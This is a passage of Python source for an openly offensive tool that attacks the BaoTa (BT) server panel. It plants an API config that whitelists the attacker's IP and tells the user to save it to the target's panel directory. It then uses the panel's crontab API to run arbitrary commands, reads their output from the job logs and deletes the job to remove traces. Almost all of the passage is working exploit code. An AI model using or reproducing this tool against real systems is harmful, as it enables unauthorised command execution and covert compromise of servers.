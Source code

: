 ```
'open': True,
'token': token,
'limit_addr': [get_ip()]
    }
    print(json.dumps(payload))
    print('请保存在目标C:\\BtSoft\\panel\\config\\api.json')
    print(f"Usage: python bt_panel_api.py -u [URL] -t {token} -c whoami")


def exploit(url, token, cmd):
# api sk
    timestamp = int(time.time())
    token = md5(str(timestamp) + token)
    api_sk = {
'request_token': (None, f'{token}'),
'request_time': (None, f'{timestamp}'),
    }
    crontab_name = get_random_string(10)
# Add a crontab
    payload = {
'sType': (None, 'toShell'),
'name': (None, f'{crontab_name}'),
'type': (None, 'day'),
'hour': (None, '1'),
'minute': (None, '30'),
'sBody': (None, f'{cmd}'),
'sName': (None, ''),
'save': (None, ''),
'backupTo': (None, 'localhost'),
    }
    payload.update(api_sk)
    requests.post(url=f'{url}/crontab?action=AddCrontab', files=payload)

# Get crontab list
    payload = {
'page': (None, '1'),
'search': (None, ''),
    }
    payload.update(api_sk)
    crontab = json.loads(requests.post(url=f'{url}/crontab?action=GetCrontab', files=payload).text)

# Start crontab
    payload = {
# 新添加的会在第一条
'id': (None, f"{crontab[0]['id']}"),
    }
    payload.update(api_sk)
    requests.post(url=f'{url}/crontab?action=StartTask', files=payload)

# Waiting for execution
    time.sleep(3)

# Read the crontab log
    log = json.loads(requests.post(url=f'{url}/crontab?action=GetLogs', files=payload).text)
    print(log['msg'])

# Delete crontab
    requests.post(url=f'{url}/crontab?action=DelCrontab', files=payload)


if __name__ == '__main__':
    cowsay.cow('BaoTa Panel Privilege escalation tool\nAuthor: https://github.com/Hzllaga')
    parser = argparse.ArgumentParser()
```